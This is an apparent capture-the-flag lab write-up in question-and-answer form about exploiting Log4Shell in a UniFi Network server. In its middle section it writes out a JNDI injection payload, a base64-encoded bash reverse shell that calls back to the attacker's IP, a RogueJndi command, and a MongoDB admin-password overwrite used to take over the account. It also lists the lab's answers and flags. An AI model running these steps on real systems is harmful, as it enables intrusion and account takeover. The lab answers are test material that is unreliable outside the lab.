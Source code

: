 
Q1: Which are the first four open ports?

A: 22, 6789, 8080, 8443

Scan with nmap with -sV flag.

![](../../Img/Pasted%20image%2020250424150410.png)

Q2: What is the title of the software that is running running on port 8443?

A: UniFi Network

I had to run the scan again with the -sC flag
![](../../Img/Pasted%20image%2020250424151327.png)

Q3: What is the version of the software that is running?

A: 6.4.54

There wasn't version number in the scan, so digging around i went to the web page of this service (on port 8443) and got this.
![](../../Img/Pasted%20image%2020250424151922.png)

Q4: What is the CVE for the identified vulnerability?

A: CVE-2021-44228

Googling aroudn i found this github repo (https://github.com/puzzlepeaches/Log4jUnifi) that had the answer.

Q5: What protocol does JNDI leverage in the injection?

A: LDAP

Looking at that cve we get it.
![](../../Img/Pasted%20image%2020250424153434.png)

Q6: What tool do we use to intercept the traffic, indicating the attack was successful?

A: tcpdump

It's just the tool for that.

Q7: What port do we need to inspect intercepted traffic for?

A: 389

It looks like ldap traffic goes to port 389

![](../../Img/Pasted%20image%2020250424155244.png)


Q8: What port is the MongoDB service running on?

A: 27117

So, according to this article (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) in the remember parameter goes a payload ("${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\"), but as i'm not using that tool (dnslog.cn) i just use my ip and tcpdump
I get an error

![](../../Img/Pasted%20image%2020250424160606.png)

but also a connection

![](../../Img/Pasted%20image%2020250424160627.png)

With this command we can encrypt the payload for the jndi echo 'bash -c bash -i >&/dev/tcp/{ip}/3333 0>&1' | base64
We insert that payload in the command for starting the jndi sv java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTU3LzMzMzMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.157"

![](../../Img/Pasted%20image%2020250424162840.png)

in burp suite we replace the payload form the remember parameter with our new jdni port (${jndi:ldap://10.10.15.157/:1389/o=tomcat})
we get the connection

![](../../Img/Pasted%20image%2020250424163652.png)

Upgrade it (script /dev/null -c bash)
Now finally for the question let's check if mongo is running (ps aux | grep mongo)

![](../../Img/Pasted%20image%2020250424163929.png)

Q9: What is the default database name for UniFi applications?

A:  ace

Before i had the genius ground breaking idea of just Googling it i connected to the mongo instance and listed the db

![](../../Img/Pasted%20image%2020250424164412.png)

![](../../Img/Pasted%20image%2020250424164226.png)

Q10: What is the function we use to enumerate users within the database in MongoDB?

A: db.admin.find()

This doesn't seem to me like a just find user command, db.getUsers() seems like the answer (https://www.prisma.io/dataguide/mongodb/configuring-mongodb-user-accounts-and-authentication)

Q11: What is the function we use to update users within the database in MongoDB?

A: db.admin.update()

Following the trend here, i got no problem with this one .

Q12: What is the password for the root user?

A: NotACrackablePassword4U2022

I Chose the Shadow Admin method from the article. I created a pswd (qweqwe12345), sha-512 it, replace the one the admin had with (db.admin.update())
and just log in

![](../../Img/Pasted%20image%2020250424170005.png)

Now, in the Steal SSH Creds it says how to get the answer

![](../../Img/Pasted%20image%2020250424170142.png)

Q13: Submit user flag

A: 6ced1a6a89e666c0620cdb10262ba127

shh into it 

![](../../Img/Pasted%20image%2020250424170310.png)

go find it

![](../../Img/Pasted%20image%2020250424170542.png)

Q14: Submit root flag

A: e50bc93c75b634e4b272d2f771c33681

Look for it 

![](../../Img/Pasted%20image%2020250424170430.png)



